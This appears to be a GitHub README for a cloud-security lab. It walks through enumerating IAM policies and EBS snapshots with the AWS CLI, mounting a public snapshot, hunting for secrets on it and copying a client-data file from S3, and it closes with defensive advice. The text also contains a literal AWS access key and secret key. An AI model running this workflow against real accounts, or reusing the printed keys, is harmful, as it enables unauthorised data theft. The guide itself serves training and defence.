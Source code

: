 # Loot Public EBS Snapshots

This documentation provides a step-by-step guide for looting public EBS snapshots, starting from basic AWS credentials and escalating access to extract sensitive data. This guide is intended for ethical red team engagements and educational purposes.

---

## Table of Contents

1. [Prerequisites](#prerequisites)
2. [Configure AWS CLI](#configure-aws-cli)
3. [Identify IAM User Context](#identify-iam-user-context)
4. [Enumerate User Policies](#enumerate-user-policies)
5. [Enumerate EBS Snapshots](#enumerate-ebs-snapshots)
6. [Check Snapshot Permissions](#check-snapshot-permissions)
7. [Exfiltrate Public EBS Snapshots](#exfiltrate-public-ebs-snapshots)
8. [Discover Secrets](#discover-secrets)
9. [Defense Recommendations](#defense-recommendations)

---

## 1. Prerequisites

- **AWS CLI** installed on your system.
- **Basic Linux command line knowledge**.
- AWS credentials for enumeration.

---

## 2. Configure AWS CLI

Set up the AWS CLI with the provided credentials. **Do not share your credentials publicly.**

```bash
aws configure
```

When prompted, enter the following placeholder values:

- **AWS Access Key ID**: `AKIARQVIRZ4UCZVR25FQ`
- **AWS Secret Access Key**: `0rXFu1r+KmGY4/lWmNBd6Kkrc9WM9+e9Z1BptzPv`
- **Default region name**: `us-east-1`
- **Default output format**: `json`

---

## 3. Identify IAM User Context

Check your current IAM user context:

```bash
aws sts get-caller-identity
```

This reveals the IAM user and AWS account ID.

---

## 4. Enumerate User Policies

List attached user policies for the IAM user `intern`:

```bash
aws iam list-attached-user-policies --user-name intern
```

### Get Policy Details

Retrieve details of the `PublicSnapper` policy:

```bash
aws iam get-policy --policy-arn arn:aws:iam::104506445608:policy/PublicSnapper
```

Check the latest policy version (e.g., `v9`):

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::104506445608:policy/PublicSnapper --version-id v9
```

---

## 5. Enumerate EBS Snapshots

List all EBS snapshots owned by the AWS account `104506445608`:

```bash
aws ec2 describe-snapshots --owner-ids 104506445608 --region us-east-1
```

---

## 6. Check Snapshot Permissions

Check the `createVolumePermission` attribute to see if the snapshot is public:

```bash
aws ec2 describe-snapshot-attribute --attribute createVolumePermission --snapshot-id snap-0c0679098c7a4e636 --region us-east-1
```

If the `Group` value is set to `all`, the snapshot is publicly accessible.

---

## 7. Exfiltrate Public EBS Snapshots

### List Public Snapshots

List public snapshots available to your IAM user:

```bash
aws ec2 describe-snapshots --owner-id self --restorable-by-user-ids all --no-paginate --region us-east-1
```

### Create Volume from Snapshot

1. Log in to the AWS Management Console.
2. Navigate to **EC2** > **Snapshots**.
3. Select **Public snapshots**.
4. Filter by **Snapshot ID** (e.g., `snap-0c0679098c7a4e636`).
5. Select the snapshot and choose **Actions** > **Create volume from snapshot**.
6. Create the volume in the appropriate availability zone.

---

## 8. Discover Secrets

### Attach Volume to EC2 Instance

1. Create an EC2 instance in the same availability zone as the volume.
2. Attach the volume to the instance.

### Mount the Volume

SSH into the EC2 instance:

```bash
ssh -i demo.pem ubuntu@<EC2-IP>
```

List storage devices:

```bash
lsblk
```

Mount the volume:

```bash
mkdir disk
sudo mount -t ext4 /dev/xvdf1 disk
```

### Extract Secrets

Navigate to the mounted directory and look for sensitive files:

```bash
cd disk
ls
```

Example: Copy files from an S3 bucket referenced in the secrets:

```bash
aws s3 ls ecorp-client-data
aws s3 cp s3://ecorp-client-data/ecorp_dr_logistics.csv .
```

---

## 9. Defense Recommendations

### Mitigation Steps

- **Avoid creating public EBS snapshots** unless absolutely necessary.
- **Rotate credentials** if exposed.
- **Monitor CloudTrail logs** for snapshot access events.

### Identify Public Snapshots

Use the following command to identify public snapshots:

```bash
aws ec2 describe-snapshots --owner-id self --restorable-by-user-ids all --no-paginate
```

### Further Actions

- **Make snapshots private**.
- **Investigate how the snapshot was made public**.
- **Implement policies to restrict snapshot sharing**.

---

## Further Reading

- [DEFCON 27 Talk on EBS Public Snapshots](https://www.youtube.com/watch?v=HXM1rBk_wXs)
- [RhinoSecurityLabs: Exploring AWS EBS Snapshots](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)
- [Dufflebag Tool by Bishop Fox](https://github.com/bishopfox/dufflebag)

---

**Author:** [Your GitHub Username]  
**License:** MIT
